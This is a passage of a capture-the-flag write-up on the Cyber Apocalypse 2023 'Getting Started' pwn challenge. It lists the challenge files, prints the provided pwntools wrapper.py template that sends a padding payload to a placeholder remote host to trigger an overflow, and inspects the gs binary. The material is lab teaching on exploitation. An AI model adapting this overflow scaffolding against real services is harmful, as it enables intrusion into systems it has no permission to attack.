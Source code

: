 
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started)-[2023.03.19|13:21:07(HKT)]
└> cd challenge      
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started/challenge)-[2023.03.19|13:21:11(HKT)]
└> file *                      
flag.txt:   ASCII text
glibc:      directory
gs:         ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=505eb225ba13a677aa5f00d5e3d840f63237871f, for GNU/Linux 3.2.0, not stripped
wrapper.py: Python script, ASCII text executable
```

In here, we see `glibc` directory, which stores necessary libc files for the `gs` binary.

**Then, the `wrapper.py` is the exploit Python script:**
```py
#!/usr/bin/python3.8

'''
You need to install pwntools to run the script.
To run the script: python3 ./wrapper.py
'''

# Library
from pwn import *

# Open connection
IP   = '0.0.0.0' # Change this
PORT = 1337      # Change this

r    = remote(IP, PORT)

# Craft payload
payload = b'A' * 10 # Change the number of "A"s

# Send payload
r.sendline(payload)

# Read flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')
```

**The `gs` binary is a 64-bit ELF executable, it's dynamically linked and not stripped:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started/challenge)-[2023.03.19|13:23:00(HKT)]
└> file gs 
gs: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=505eb225ba13a677aa5f00d5e3d840f63237871f, for GNU/Linux 3.2.0, not stripped
```
